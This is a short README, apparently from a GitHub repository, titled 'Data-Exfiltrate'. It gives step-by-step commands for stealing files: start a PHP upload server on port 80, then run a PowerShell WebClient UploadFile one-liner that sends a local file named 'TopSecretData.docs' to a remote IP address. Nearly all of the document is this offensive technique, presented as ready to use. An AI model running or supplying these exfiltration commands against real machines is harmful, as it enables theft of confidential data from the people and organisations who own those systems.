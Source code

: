# Data-Exfiltrate
Using PHP upload page and Windows PowerShell to exfiltrate data

In directory where the upload.php file is hosted, start PHP development server on port 80.
```
php -S 0.0.0.0:80
```
![PHP Dev Server](php_dev_server_hosting_upload.php.png)

On the source windows machine with the data files you want to upload execute the following powershell command to send the destination URL the source file path and name.
```powershell
powershell $(New-Object System.Net.WebClient).UploadFile('http://192.168.255.37/upload.php', 'C:\users\SkippyPeanut\Downloads\TopSecretData.docs');
```
![PowerShell Upload](powershell-uploadfile-command.png)

Data Exfiltration.
